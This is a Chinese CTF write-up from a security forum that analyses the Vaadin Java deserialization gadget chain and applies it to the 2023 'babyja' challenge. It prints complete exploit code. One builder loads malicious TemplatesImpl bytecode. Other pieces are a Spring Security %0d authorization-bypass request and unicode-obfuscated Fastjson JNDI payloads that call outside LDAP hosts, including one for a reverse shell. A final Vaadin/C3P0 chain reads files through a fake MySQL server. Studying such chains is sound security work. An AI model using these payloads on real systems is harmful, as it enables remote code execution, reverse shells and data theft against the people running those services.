# 从 CTF 中学习 Vaadin gadgets - 先知社区

从 CTF 中学习 Vaadin gadgets

- - -

# 前言

看了下之前没打出来的 CTF 题目心血来潮来复现学习下，刚好遇到新的链子，就一并记录下，标题很洋气，从 CTF 中学习 Vaadin gadgets

# Vaadin 链

Vaadin 可以理解为是一个平台吧，有 UI，了解即可，Vaadin 的反序列化调用链其实蛮简单的，就是反射调用 `getter`​ 方法罢了

依赖

```plain
vaadin-server : 7.7.14
vaadin-shared : 7.7.14
```

漏洞其实就三个类

### NestedMethodProperty

`com.vaadin.data.util.NestedMethodProperty`​ 类可以理解为是一个封装属性方法的类，其构造方法如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162442-fcd67ffa-d6db-1.png)

接收两个参数，一个是实例化的对象，一个是属性值。然后调用初始化方法将调用 `initialize`​ 方法获取实例类中的相关信息存放在成员变量中。跟进该初始化方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162446-ff99242c-d6db-1.png)

发现已经获取到了我们传入的属性值的 getter 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162452-02d2d854-d6dc-1.png)

并且进行对象属性的一些赋值封装

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162458-063d26a2-d6dc-1.png)

然后这个`NestedMethodProperty`​ 类 存在 `getValue`​ 方法

将我们上述封装的`getMethods`​这个方法数组类进行遍历且调用里面的属性的方法名

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162504-09e9bb8a-d6dc-1.png)

因此这个类又是可以触发 TemplatesImpl 的利用方式，所以找哪个类存在 能够触发`NestedMethodProperty#getvalue()`​去调用 getter 方法，于是找到下面的类

### PropertysetItem

触发类是 `com.vaadin.data.util.PropertysetItem`​ ，这个类实现了几个接口，初始化后能够对自己的 map 属性，list 属性进行操作

数据存放在成员变量 map 中，想要获取相应属性时，则调用 `getItemProperty`​ 方法在 map 中获取，需要传入一个对象

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162514-1020c124-d6dc-1.png)

而这个类重点则是他存在`toString`​方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162523-152618fe-d6dc-1.png)

从 list 中获取值然后去调用`getValue`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162527-180796c4-d6dc-1.png)

那么这个 list 怎么赋值呢，可以关注`addItemProperty`​方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162532-1afac04a-d6dc-1.png)

将我们传入的 id 值传入

断点看下这个​`getItemPropertyIds`​的返回值是什么

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162539-1efab8f8-d6dc-1.png)

其实可以发现他返回的就是我们`list`​的内容

那之后取出 list 的内容后再从 map 中去找对应的值去调用我们的 getvalue 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162545-223dad86-d6dc-1.png)

那么现在目的就是

1.  list 有一个需要调用他的 getter 方法的 id
2.  map 也需要一个调用他的 getter 方法的 id 并且取出来的值为`NestedMethodProperty`​类来调用他的 getvalue 方法

那其实就已经非常好去拼接了

最后的问题就是如何在反序列化的时候调用任意类的`Tostring`​方法了，而在我们的 CC5 当中就接触过这个类叫`BadAttributeValueExpException`​，他的反序列化是可以调用任意类的`ToString`​方法的，于是参考 SU18 师傅的 EXP 成功弹出计算机

```plain
package Vaadin;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.vaadin.data.util.NestedMethodProperty;
import com.vaadin.data.util.PropertysetItem;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class Vaadin_Ser {


    public static void  serialize(Object obj) throws IOException {
        ObjectOutputStream oos =new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {

        // 生成包含恶意类字节码的 TemplatesImpl 类
        byte[] payloads = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));


        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][] {payloads});
        setFieldValue(templates, "_name", "zjacky");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        PropertysetItem pItem = new PropertysetItem();

        NestedMethodProperty<Object> nmprop = new NestedMethodProperty<Object>(templates, "outputProperties");
        pItem.addItemProperty("outputProperties", nmprop);

        // 实例化 BadAttributeValueExpException 并反射写入
        BadAttributeValueExpException exception = new BadAttributeValueExpException("zjacky");
        Field field     = BadAttributeValueExpException.class.getDeclaredField("val");
        field.setAccessible(true);
        field.set(exception, pItem);

//        serialize(exception);
unserialize("ser.bin");

    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162559-2aec2a7a-d6dc-1.png)

整个链代码量非常少，其实还是很简单的自己动手跟下即可非常容易理解

# CTFer

这里学完这个之后来以 2023 年福建省赛黑盾杯的初赛 babyja 来进行案例分析，考点如下 (其实这个题很多解法)

1.  Fastjson 黑名单绕过 or 不出网应用
2.  Spring Security 权限绕过
3.  Vaadin 反序列化链
4.  C3P0 二次反序列化

## 2023 闽盾杯初赛 babyja

目录结构

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162614-33b0aad2-d6dc-1.png)

查看`pom.xml`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162620-37460ea8-d6dc-1.png)

其实意图就很明显三个组件都能相互配合 (马后炮)

并且存在 Spring Security 的一个权限鉴权，先查看下`AuthConfig.class`​ 发现是用`regexMatchers`​来进行正则匹配路径，去查看下 spring Security 的版本为 5.6.3，而这里由于设计问题看他的控制器是随便什么都可以进入逻辑 相当于`admin/*`​ ，所以完全符合漏洞版本所以可以使用`%0d`​绕过

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162627-3ba6cc58-d6dc-1.png)

直接访问 302

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162631-3e161854-d6dc-1.png)

权限绕过后返回​`WellDone`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162637-416dd71c-d6dc-1.png)

当然给出账号密码也是可以登录获取 Session 的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162641-43fa29fe-d6dc-1.png)

获取到 Session `JSESSIONID=FC8D9FE4BBDAE0BC554377DB1CAFCBE8`​

发现成功执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162646-46de2508-d6dc-1.png)

再来查看控制器

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162650-49871882-d6dc-1.png)

可以发现传入 data 这个 json 字符串然后进行鉴权并且给到`JSON.parse`​解析，其实可以想到绕过黑名单+fastjson 打 C3p0 不出网这个思路，也可以直接打 jndi 注入吧，跟进`SecurityCheck`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162655-4c586f2a-d6dc-1.png)

可以想到用 16 进制或者 unicode 来进行绕过黑名单，所以有以下打法

### JNDI 注入 (出网+jdk 低版本)

本地用的是 jdk8u65

```plain
POST /admin/user%0d HTTP/1.1
Host: localhost:8080
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
sec-ch-ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"

data={{urlenc(eyJAdHlwZSI6Ilx1MDA2M1x1MDA2Zlx1MDA2ZFx1MDAyZVx1MDA3M1x1MDA3NVx1MDA2ZVx1MDAyZVx1MDA3Mlx1MDA2Zlx1MDA3N1x1MDA3M1x1MDA2NVx1MDA3NFx1MDAyZVx1MDA0YVx1MDA2NFx1MDA2Mlx1MDA2M1x1MDA1Mlx1MDA2Zlx1MDA3N1x1MDA1M1x1MDA2NVx1MDA3NFx1MDA0OVx1MDA2ZFx1MDA3MFx1MDA2YyIsImRhdGFTb3VyY2VOYW1lIjoibGRhcDovLzEwNy4xNzQuMjI4Ljc5OjEzODkvQmFzaWMvQ29tbWFuZC9jYWxjIiwiYXV0b0NvbW1pdCI6dHJ1ZX0=)}}
```

直接反弹 shell 即可

```plain
{"@type":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","dataSourceName":"ldap://xxx:1389/Basic/ReverseShell/xxx/7979","autoCommit":true}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162711-5581e202-d6dc-1.png)

当然除了直接打 1.2.24 的 JNDI 也可以打 C3P0 的 JNDI，只是需要用 unicode 或者 16 进制去绕过即可

```plain
{"@type":"com.mchange.v2.c3p0.\u004a\u006e\u0064\u0069\u0052\u0065\u0066\u0043\u006f\u006e\u006e\u0065\u0063\u0074\u0069\u006f\u006e\u0050\u006f\u006f\u006c\u0044\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065","\u004a\u006e\u0064\u0069\u004e\u0061\u006d\u0065":"ldap://127.0.0.1:1389/Basic/Command/calc", "LoginTimeout":0}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162722-5c17fcd2-d6dc-1.png)

### 不出网打二次反序列化

C3P0 打二次反序列化，可以看到该题存在 Vaadin 的依赖，所以可以通过 C3P0 打 Vaadin 的反序列化，但是由于他把`TemplatesImpl`​的 16 进制也给 ban 了，这样子我们就没办法用 C3P0 打二次反序列化来使用`TemplatesImpl`​加载字节码了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162730-613cf06e-d6dc-1.png)

所以只能另从别的思路来看，从始至终我们并没有去讨论题目的`bean`​目录，现在来看下

一个接口

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162735-64220152-d6dc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162741-67a581c8-d6dc-1.png)

可以发现这里存在`getConnection`​方法，而在 Vaadin 分析中可以得知，其链子一部分是可以调用任意属性的 getter 方法的，所以在这里思路就是：调用`getConnection`​方法来控制 JDBC 来连恶意的 mysql 从而读取 flag，而已的 mysql 为

[https://github.com/fnmsd/MySQL\_Fake\_Server](https://github.com/fnmsd/MySQL_Fake_Server)

根据 Vaadin 的 exp 来修改下即可，最后的 exp(这里参考大头 Sec 的 Wp) 为

```plain
import com.ctf.bean.MyBean;
import com.vaadin.data.util.NestedMethodProperty;
import com.vaadin.data.util.PropertysetItem;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;


public class Vaadin_Ser {


    public static void  serialize(Object obj) throws IOException {
        ObjectOutputStream oos =new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] ser(Object obj) throws Exception{
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream out = new ObjectOutputStream(bos);
        out.writeObject(obj);
        out.flush();
        return bos.toByteArray();
    }
    public static String bytesToHexString(byte[] bArray) {
        StringBuffer sb = new StringBuffer(bArray.length);
        for (byte b : bArray) {
            String sTemp = Integer.toHexString(255 & b);
            if (sTemp.length() < 2) {
                sb.append(0);
            }
            sb.append(sTemp.toUpperCase());
        }
        return sb.toString();
    }


    public static void main(String[] args) throws Exception {

        MyBean myBean =new MyBean();
        myBean.setDatabase("mysql://xxx:3306/test?user=fileread_file:///flag.txt&ALLOWLOADLOCALINFILE=true&maxAllowedPacket=65536&allowUrlInLocalInfile=true#");

        PropertysetItem pItem = new PropertysetItem();

        NestedMethodProperty<Object> nmprop = new NestedMethodProperty<Object>(myBean, "Connection");
        pItem.addItemProperty("Connection", nmprop);

        // 实例化 BadAttributeValueExpException 并反射写入
        BadAttributeValueExpException exception = new BadAttributeValueExpException("zjacky");
        Field field     = BadAttributeValueExpException.class.getDeclaredField("val");
        field.setAccessible(true);
        field.set(exception, pItem);

        // 序列化并输出 HEX 序列化结果
        System.out.println(bytesToHexString(ser(exception)));

    }
}
```

这里有一个很重要的东西，就是包名一定要得对 (CTFer 的痛)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162754-6f4846b8-d6dc-1.png)

```plain
mysql://1.1.1.1:3306/test?user=fileread_file:///.&ALLOWLOADLOCALINFILE=true&maxAllowedPacket=65536&allowUrlInLocalInfile=true#

mysql://1.1.1.1:3306/test?user=fileread_file:///flag.txt&ALLOWLOADLOCALINFILE=true&maxAllowedPacket=65536&allowUrlInLocalInfile=true#
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229162800-72bea9fe-d6dc-1.png)

关卡 4.zip (24.115 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240229162916-a07baeb4-d6dc-1.zip)
